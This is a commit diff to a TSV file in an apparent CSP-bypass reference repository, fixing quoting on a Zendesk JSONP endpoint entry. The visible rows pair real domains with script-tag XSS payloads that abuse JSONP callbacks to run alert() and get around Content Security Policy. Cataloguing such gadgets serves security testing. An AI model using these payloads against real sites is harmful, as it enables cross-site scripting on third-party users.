

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in ….

Commit message:
Update data.tsv
Fixed missing quotes around zendesk endpoint

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -152,3 +152,3 @@ suggest.taobao.com	<script src="https://suggest.taobao.com/sug?callback=alert"><
 suggestqueries-clients6.youtube.com	<script src="https://suggestqueries-clients6.youtube.com/complete/search?client=youtube&q=$query&callback=alert"></script>
-support.zendesk.com	<script src=https://support.zendesk.com/accounts/reminder?callback=alert(window.location)//></script>
+support.zendesk.com	<script src="https://support.zendesk.com/accounts/reminder?callback=alert(window.location)//"></script>
 sync.im-apps.net	<script src="https://sync.im-apps.net/imid/segment?callback=alert(1)&token=VXoW9wEaCAYxiIkb8Mzm7Q"></script>
```
